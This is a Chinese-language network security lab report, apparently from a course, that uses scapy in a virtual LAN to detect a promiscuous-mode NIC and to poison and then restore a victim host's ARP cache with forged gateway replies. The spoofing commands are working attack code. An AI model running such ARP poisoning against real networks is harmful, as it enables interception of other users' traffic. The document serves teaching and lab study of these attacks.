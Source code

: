 



# 实验

## 网络拓扑

- 攻击者主机:
  - 08:00:27:d5:a6:c7 / eth0
  - 172.16.111.147
- 受害者主机:
  - 08:00:27:97:0f:7c / eth0
  - 172.16.111.137
- 网关:
  - 08:00:27:85:88:54 / enp0s9
  - 172.16.111.1

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![安装scapy](img/安装scapy.PNG)

## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![混杂模式是否可用](img/混杂模式是否可用.PNG)

```bash
# 在攻击者主机上开启 scapy
sudo scapy
```

![开启scapy](img/开启scapy.PNG)

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.137")
```

![pkt](img/pkt.PNG)

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![打开混杂模式](img/打开混杂模式.PNG)

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.137")
```

![差异](img/差异.PNG)

```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

![关闭混杂模式](img/关闭混杂模式.PNG)

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![查看ARP](img/查看ARP.PNG)

```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
gw_mac
```

![发送请求](img/发送请求.PNG)

```python

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.137
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.137", hwdst="08:00:27:d5:a6:c7")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![发送伪造的ARP](img/发送伪造的ARP.PNG)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```

![查看地址](img/查看地址.PNG)

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:85:88:54", pdst="172.16.111.137", hwdst="08:00:27:97:0f:7c")
sendp(restorepkt1, count=100, inter=0.2)
```

![伪装网关发送ARP](img/伪装网关发送ARP.PNG)

此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![刷新记录](img/刷新记录.PNG)